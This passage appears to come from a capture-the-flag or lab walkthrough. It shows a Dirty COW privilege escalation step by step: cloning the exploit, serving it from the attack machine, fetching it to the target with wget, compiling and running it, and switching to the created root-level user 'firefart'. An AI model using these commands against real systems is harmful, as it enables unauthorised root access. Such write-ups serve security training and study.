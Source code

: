 Clone the exploit on the attack machine.

```text
git clone https://gist.github.com/e9d4ff65d703a9084e85fa9df083c679.git
```

Start up a server in the directory where the exploit resides.

```text
python -m SimpleHTTPServer 5555
```

Transfer the exploit to the target machine.

```text
wget http://10.10.14.6:5555/dirty.c
```

Compile the file as per the included compile instructions.

```text
gcc -pthread dirty.c -o dirty -lcrypt
```

Run the exploit.

```text
./dirty
```

Choose the password for the newly created user.

![](../images/max/620/1*wdOtAeCiuFtOwRoxEErCzQ.png)

Change to the newly created user.

```text
su firefart
```

We have root privileges! Grab the root flag.
